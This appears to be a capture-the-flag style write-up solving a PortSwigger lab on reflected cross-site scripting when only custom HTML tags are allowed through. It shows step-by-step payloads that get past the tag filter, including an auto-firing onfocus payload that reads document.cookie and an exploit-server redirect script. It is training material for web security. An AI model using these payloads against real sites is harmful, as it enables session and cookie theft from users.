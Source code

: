 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones
# https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-all-standard-tags-blocked

```bash
# Search

<img src=0 onerror=alert()>

Result: "Tag is not allowed"
```
```bash
<custom-tag>

# You won't see the custom tag, but when you inspect the result inside the HTML code, you will find it.
# So, we can use <custom-tag>.
<custom-tag>'</custom-tag>
```

```bash
<custom-tag onmouseover=alert("a")>

# If you use this and move your mouse over the result, you will get an alert.

<custom-tag onmouseover=alert(document.cookie)>

# This doesn't solve the lab because it does not trigger an alert automatically.
```
```bash
<custom-tag onfocus=alert(document.cookie) id='a' tabindex='1'>

# web-security-academy.net/?search=<custom-tag+onfocus%3Dalert(document.cookie)+id%3D'a'+tabindex%3D'1'> add #a to our link.
# And now, we can see the automated attack.
```

```bash
# Go to exploit server
<script>
location='https://0ac300e4037ef235801a2663000300c3.web-security-academy.net/?search=%3Ccustom-tag+onfocus%3Dalert(document.cookie)+id%3D%27a%27+tabindex%3D%271%27%3E#a' 
</script>

# You need to put it inside a <script> tag. The <script> tag is used to embed JavaScript code in HTML.
# onfocus=alert(document.cookie) means that when the element gains focus, it triggers an alert displaying the document's cookies.
# id='a' and tabindex='1' are additional attributes for the element.x
```
